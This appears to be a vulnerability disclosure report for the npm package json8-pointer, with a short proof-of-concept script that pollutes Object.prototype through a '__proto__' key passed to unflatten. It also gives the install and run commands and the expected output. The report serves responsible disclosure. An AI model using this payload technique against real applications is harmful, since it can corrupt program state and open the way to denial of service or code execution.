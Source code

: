 # Description

`json8-pointer` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
var json8Pointer = require("json8-pointer")
json8Pointer.unflatten({"": {},"/firstName": "John", "/__proto__/polluted": "Yes! Its Polluted"});
console.log(polluted); 
```

2. Execute the following commands in another terminal:

```bash
npm i json8-pointer # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Yes! Its Polluted
```
